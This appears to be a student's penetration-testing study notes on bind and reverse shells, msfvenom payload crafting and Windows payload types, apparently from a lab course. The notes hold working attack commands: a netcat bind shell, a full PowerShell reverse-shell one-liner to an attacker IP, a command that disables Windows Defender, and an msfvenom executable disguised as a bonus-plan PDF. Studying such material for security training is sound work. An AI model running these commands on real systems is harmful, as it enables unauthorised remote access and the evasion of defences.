


# Shells & Payloads
- [Shell Basics](#shell-basics)
    - [Bind Shells](#bind-shells)
    - [Reverse Shells](#reverse-shells)
- [Payloads](#payloads)
    - [Crafting Payloads with MSFvenom](#crafting-payloads-with-msfvenom)
- [Windows Shells](#windows-shells)
    - [Infiltrating Windows](#infiltrating-windows)
- [NIX Shells](#nix-shells)


## Shell Basics
### Bind Shells

- **Establishing a Basic Bind Shell with Netcat:** 
    1. Server - Binding a Bash shell to the TCP session: `Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`
    2. Client - Connecting to bind shell on target: 
    ```
    abdeonix@htb[/htb]$ nc -nv 10.129.41.200 7777

    Target@server:~$ 
    ```

- The bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener.

### Reverse Shells 

- [**Reverse Shell cheat sheet**](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

> [!TIP]
> We may want to use common ports like 443,80 because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level.

- **Reverse Shell in Windows**:
    - Listen on our attack box using netcat `sudo nc -nlvp 443`
    - Connect from our target 
    ```
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
    
    > [!NOTE]
    > If we are blocked by windows defender 
    > ```
    > At line:1 char:1
    > + $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
    > + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    > This script contains malicious content and has been blocked by your antivirus software.
    > + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    > + FullyQualifiedErrorId : ScriptContainedMaliciousContent
    > ```
    > Disable AV: `Set-MpPreference -DisableRealtimeMonitoring $true`


## Payloads

### Crafting Payloads with MSFvenom
- **Staged vs. Stageless Payloads**


| **Aspect**                  | **Staged Payloads**                                                        | **Stageless Payloads**                                                  |
|-----------------------------|-----------------------------------------------------------------------------|-------------------------------------------------------------------------|
| **Structure**                | Consists of two parts: a **small initial payload (stage)** and the **main payload**. | Contains the entire payload, delivered all at once in a single transmission. |
| **Execution Flow**           | The small stage is executed first, which then connects back to the attacker's system to download the rest of the payload. | The entire payload is executed immediately after being sent, with no need for further downloads. |
| **Network Traffic**          | Requires multiple network communications: one to deliver the stage and another to download the full payload. | Sends the complete payload in one go, reducing network traffic. |
| **Memory Usage**             | The stage takes up some memory space, leaving less room for the main payload. | No stage, so the full payload occupies memory right away. |
| **Stability**                | May lead to unstable sessions in environments with high latency or limited bandwidth, as multiple connections are required. | More stable in poor network conditions since the entire payload is sent at once, minimizing potential interruptions. |
| **Payload Size**             | Smaller initial footprint since only the stage is sent first; the rest comes later. | Larger payload size, as everything is delivered at once. |
| **Evasion**                  | Can be easier to detect due to the extra traffic between the attacker and the target for staging. | May have better evasion since there’s only one network transaction, reducing the chances of detection. |
| **Use Case in Metasploit**   | Payload names typically have multiple parts, e.g., `/shell/reverse_tcp`, where each part represents a stage. | Payload names are "compressed," with fewer slashes, e.g., `meterpreter_reverse_tcp`, indicating it is a single-stage payload. |
| **Examples**                 | `linux/x86/shell/reverse_tcp`, `windows/meterpreter/reverse_tcp`           | `linux/zarch/meterpreter_reverse_tcp`, `windows/meterpreter_reverse_tcp` |
| **Customization/Modularity** | Allows for flexibility, as different stages can be combined for different attack scenarios. | Less modular since everything is bundled together in one payload. |
| **Risk of Interruption**     | Higher risk of failure if the network connection is interrupted during the staging process. | Lower risk since there’s only one network communication to complete the attack. |


- Build a stageless payload `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

- Building a simple Stageless Payload for a Windows system `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`


## Windows Shells
### Infiltrating Windows
#### Enumerating Windows & Fingerprinting Methods

> [!NOTE]
> Time To Live (TTL), A typical response from a Windows host will either be 32 or 128.

- [ ] Scan the host using Nmap and defined open ports  
- [ ] Banner grabing `sudo nmap -v 192.168.86.39 --script banner.nse -p SPECIFIC_PORTS`
- [ ] Fingerprinting the services 

#### Bats, DLLs, & MSI Files
- **Payload Types to Consider**
    - DLLs: A Dynamic Linking Library (DLL) is a library file used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once.
    - Batch: Batch files are text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter. These files end with an extension of .bat. We can use batch files to run commands on the host in an automated fashion.
    - VBS: VBScript is a lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform specific actions.
    - MSI: .MSI files serve as an installation database for the Windows Installer. When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them.
    - Powershell: Powershell is both a shell environment and scripting language. It serves as Microsoft's modern shell environment in their operating systems. As a scripting language, it is a dynamic language based on the .NET Common Language Runtime that, like its shell component, takes input and output as .NET objects.


- **Payload Generation**
    - We have plenty of good options for dealing with generating payloads to use against Windows hosts.The table below lays out some of our options.

        | **Resource**                   | **Description**                                                                                                                                                                 |
        |---------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
        | **MSFVenom & Metasploit-Framework** | [Source](https://github.com/rapid7/metasploit-framework) MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife. |
        | **Payloads All The Things**     | [Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology.                                                             |
        | **Mythic C2 Framework**         | [Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.                              |
        | **Nishang**                     | [Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.                           |
        | **Darkarmour**                  | [Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.                                                                          |


> [!TIP]
> When we get a shell, `C:\Windows\system32>` can clue us in that we are just in a cmd.exe shell.
> If we drop into PowerShell, our prompt would look like `PS C:\Windows\system32>`.

## NIX Shells